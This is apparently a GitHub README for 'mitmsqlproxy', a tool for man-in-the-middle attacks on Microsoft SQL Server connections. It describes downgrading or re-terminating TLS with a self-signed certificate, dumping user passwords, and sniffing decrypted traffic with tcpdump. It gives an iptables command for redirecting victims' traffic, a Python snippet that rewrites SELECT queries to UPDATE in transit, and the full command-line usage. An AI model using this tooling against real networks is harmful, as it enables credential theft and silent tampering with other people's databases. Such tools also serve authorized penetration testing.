 # MITM SQL proxy (TLS supported)

Tool for MS SQL Man In The Middle attack which supports TLS encryption. 

## How it works:
It listens for connection pretending to be a real MS SQL server, decrypts traffic to obtain credentials or manipulate the queries and connect back to real SQL server and forward traffic.
When possible it downgrades connection to non-encrypted on both sides, if not it decrypts and encrypts data on-the-fly (on one or both sides depending on need) giving access to unencrypted data if only certificate is not verified on client side (which is default on most applications) or user can provide appropriate acceptable certificate.

In the future also server emulation option is planned - no SQL server will be needed to obtain credentials from the client.

## Dumping passwords
It shows passwords of connected users as well as those created or altered (changed) during the connection.

![screen](https://github.com/defragmentator/mitmsqlproxy/blob/master/screen.png?raw=true)



## Easy sniffing
To allow easy sniffing decrypted traffic by default is passing by loop on 127.0.0.1:1434
```
tcpdump -i lo port 1434 -X
```
## Easy queries manipulation
Traffic can be also easy redirected to some other middle application to manipulate queries. It needs to listen on some port, manipulate the data and send it back to some other port. All processed data is already decrypted.

As example *manipulation_example.py3* show how to change all SELECT queries to UPDATE on-the-fly:

```python
...
    def dataReceived(self, data):
        i = data.find("SELECT".encode('utf-16le'))
        if i > -1:
            print("FOUND: SELECT - replacing to UPDATE")
            rstr = "UPDATE".encode('utf-16le')
            data = data[:i] + rstr + data[i + len(rstr):]
...
```

```
./mitmsqlproxy.py 192.168.123.2 -d -lcp 1444 &

./manipulation_example.py
```
*Note: in this example substitution of strings of the same length is performed. If string length changes it is needed to recalculate TDS frame values. Here impacket.tds package can be helpful.*

## No certificate needed
Self-signed certificate is generated on-the-fly. For default configuration of SQL libraries, it will work (only login packet is encrypted).
If on client side full encryption is forced ("Encrypt connection" is selected or "Encrypt=true;" is present in the connection string) **it will work only when "Trust server certificate" is selected or 'TrustServerCertificate=true' is in connection string**. Trusted cerificate can be also provided in command line.

If needed custom user cert can be loaded from a file.

## Transparent traffic redirection 
If traffic goes through the machine interface it can be redirected to listening port with iptables like this:
```
sysctl net.ipv4.ip_forward=1 
iptables -t nat -A PREROUTING -p tcp --dport 1433 -j DNAT --to-destination 127.0.0.1:1433
```

## Command line options
```
usage: mitmsqlproxy.py [-h] [-port PORT] [-lport LPORT] [-q | -d | -dd] [-ll ip_address] [-llp port]
                       [-lc ip_address] [-lcp port] [--disable-loop] [--cert my.crt] [--key my.key]
                       target

MSSQL MITM proxy (SSL supported).

positional arguments:
  target          MSSQL server name or address

options:
  -h, --help      show this help message and exit
  -port PORT      MSSQL server port (default 1433)
  -lport LPORT    local listening port (default 1433)
  -q              quiet mode
  -d              show more info
  -dd             show debug info

Internal connection loop - decrypted data is sent to certain port (default 127.0.0.1:1434) and coming back to mitmslqproxy to be encrypted and send further. This option allows to sniff or even modify unencrypted SQL traffic in the fly with third party application:
  -ll ip_address  loop listening address (default 127.0.0.1)
  -llp port       loop listening address port (default 1434)
  -lc ip_address  loop connecting address (default 127.0.0.1)
  -lcp port       loop connecting address port (default 1434)
  --disable-loop  disable internal loop - if both sides will negotiate encryption sniffing will be
                  useless, only credentials will be shown on console (raw data only in debug mode)

TLS custom private key and certificate (by default it is dynamically generated):
  --cert my.crt   certificate file
  --key my.key    private key file
```
